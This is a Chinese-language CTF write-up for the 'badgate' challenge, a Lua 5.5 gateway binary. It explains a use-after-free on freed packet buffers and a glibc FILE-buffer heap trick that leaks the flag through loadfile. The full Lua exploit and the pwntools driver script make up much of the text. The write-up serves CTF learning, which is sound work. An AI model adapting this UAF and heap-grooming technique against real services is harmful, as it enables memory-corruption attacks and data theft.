


# badgate

> Inspired by OpenResty
> Lua api version 5.5.0
> nc 1.95.3.79 9999

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

题目基于 lua 5.5 加了自己的 gateway 模块。剥符号对人的考验还是太大了，
对着源码逆了半天也没有找全关键函数，AI 大人半个小时题都做出来了。

内建模块把 io、os 之类的都关掉了，没法直接读 flag，但是 `loadfile` 还在，
会将 flag 加载到内存里，尝试编译。但是题目的 flag 无法加载成功，只能泄露 `1u`
两个字符。

在成功配置 `gateway.run` 后，会启动监听，绑定到一个随机端口，接收到请求时，
会分配一片 `0x1000` 的缓冲区用来存放 tcp 请求。连接管理和数据包被放进了两个结构体中。

```c
struct pkt {
    void *base;
    size_t length;
    size_t capacity;
    int freed;
};

struct conn {
    int fd;
    struct pkt* pkt;
    int closed;
    struct sockaddr_in remote;
    struct sockaddr_in local;
};
```

为了方便我们在 lua 层面访问到这些数据，出题人又做了一层封装，使用了两个结构体，
作为 lua userdata。

```c
struct lua_conn {
    struct conn *conn;
};

struct lua_pkt {
    void *pkt;
    size_t consumed;
    size_t recved;
}
```

在客户端发送完数据包后，会向这些结构体中填入指针和传入的数据大小。如图所示，
同时有两个指针指向当时分配出来的 0x1000 的内存块，关闭连接时，会把 `pkt`
中的指针释放掉，因此我们会失去橙色的线指向的引用。然而，`lua_pkt` 并没有清空，
导致我们在 lua 层面仍然持有对内存块的引用（粉色线），存在明显的 UAF。



有了 UAF 也不一定需要打堆。阅读 glibc 源码，FILE 分配的缓冲区默认是 `BUFSIZ == 0x2000`，
然而在 `_IO_file_doallocate` 中有一个细节，打开文件后会执行 `stat` 获取文件块大小，
如果文件块大小不为 0 且小于 `BUFSIZ`，则按文件块大小分配。而我们要读取的是 flag 文件，
flag 属于小文件，块大小会对其到上界 `0x1000`，因此执行 `conn:close()` 后执行 `loadfile('/flag')`
会把文件读到我们持有引用的内存块，此时只需要调用 `pkt:tostring()` 就可以把 flag 保存到字符串中，
下次连接直接发送回来，就可以打印 flag。

需要注意的是，`loadfile` 后是会把文件缓冲区释放掉的，为了避免 glibc 向堆块上写入元数据导致
flag 被破坏，我们必须控制这个 0x1000 的堆块紧贴 top chunk。由于这个大小的堆块不会进 tcache，
因此分配和释放只是简单地挪动 top 指针，不会写入数据，这保留了堆块内容。为了达成这个目的，
我们可以在第一次连接关闭时控制分配新堆块，这样老的 pkt 就会被放进 unsorted bin 中，
后续分配都会从这个块上切割，不会动 top chunk。然后刻意切割一块下来，使其可用大小小于
0x1000，保证了下次请求时只能从 top chunk 切新堆块。

## EXPLOIT

```lua
local leak = nil
local flag = nil
local round = 0

print('Spinning up...')

local function die_nil(o, conn)
    if o == nil then
        conn:send('Failed to leak flag!')
        conn:close()
    end
end

gateway.run(function (conn, pkt)
    if round == 0 then
        round = 1
        -- split the heap, leave pkt in unsorted bin
        local _ = string.rep('x', 0x100)
        conn:send('Heat up heap...')
        conn:close()
        -- shrink 0x1000 chunk so next pkt allocates at top chunk
        local _ = string.rep('x', 0x120)
    elseif round == 1 then
        round = 2
        conn:send(string.format('Try to leak pkt @ %p', pkt))
        conn:close()
        -- local _ = math.abs(1) -- $rebase(0x19590)
        local _ = loadfile('/flag')
        -- local _ = math.abs(1)
        leak = string.format('Leaking |%s|', pkt:tostring())
    else
        if flag ~= nil then
            conn:send(flag)
            conn:close()
        end
        assert(leak ~= nil)
        local cursor = string.find(leak, '|')
        die_nil(cursor, conn)
        local flag_start = cursor + 1
        cursor = string.find(leak, '{', cursor)
        die_nil(cursor, conn)
        cursor = string.find(leak, '}', cursor)
        die_nil(cursor, conn)
        flag = string.sub(leak, flag_start, cursor)

        conn:send(string.format('Here is the flag: %s\n', flag))
        conn:close()
    end
end)
```

```python
from pwn import *
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = 'deploy/badgate'

def payload(lo: int):
    global t, http_client
    if lo:
        t = process(EXE)
        host = '127.0.0.1'
        if lo & 2:
            gdb.attach(t)
    else:
        host = '1.95.3.79'
        t = remote(host, 9999)

    t.recvuntil(b'[gw]')
    with open('exp.lua') as exp:
        t.send(exp.read().encode())
        t.sendline(b'EOF')
    t.recvuntil(b'0.0.0.0:')
    port = int(t.recvline())

    info('Round 1, heat up')
    http_client = remote(host, port)
    http_client.sendline()
    http_client.recvuntil(b'Heat up')
    http_client.close()

    info('Round 2, exploit UAF to put flag in top chunk')
    http_client = remote(host, port)
    http_client.sendline(b'FILL' * 15)
    http_client.recvuntil(b'pkt')
    http_client.close()

    info('Round 3, print flag')
    http_client = remote(host, port)
    http_client.sendline()
    flag_line = http_client.recvline().decode().strip()
    http_client.close()

    if flag_line.startswith('H'):
        success(GOLD_TEXT(flag_line))
    else:
        success(flag_line)

    t.close()
```


